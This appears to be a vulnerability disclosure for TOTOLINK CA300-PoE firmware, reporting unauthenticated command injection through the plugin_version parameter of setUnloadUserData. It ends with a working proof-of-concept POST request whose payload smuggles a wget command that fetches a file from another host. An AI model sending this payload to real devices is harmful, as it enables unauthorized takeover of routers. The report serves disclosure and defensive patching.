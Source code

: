 ## RCE-upgrade.so-setUnloadUserData-plugin_version
## Firmware

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html
![image](https://github.com/user-attachments/assets/1f19d9d6-bbe6-409f-8085-a650f1d3f616)
## Description
```
TOTOLINK CA300-PoE_Firmware  V6.2c.884 was found to contain unauthorized remote command execution via the plugin_version parameter.
The plugin_version in the setUnloadUserData function in the update.so file is user-controllable. Without any filtering, it is spliced into the variable v8, and finally passed into cs_cmd, causing the command to be executed.
```

![image](https://github.com/user-attachments/assets/6b9416f3-f2dc-42f7-9a01-b0506bbc286b)
![94929ab1de737d7e19968cd6acdbdb6](https://github.com/user-attachments/assets/5c0ea937-4248-483c-b127-ac30462fea52)


![image](https://github.com/user-attachments/assets/4bb5278b-cb59-467b-bf9b-6116a30c0f02)
## POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.254

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 107

Origin: http://192.168.0.254

Connection: keep-alive

Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260



{"topicurl" :"setting/setUnloadUserData",

"plugin_version" : "a;wget http://192.168.0.253:8000/123.txt;a"}
```
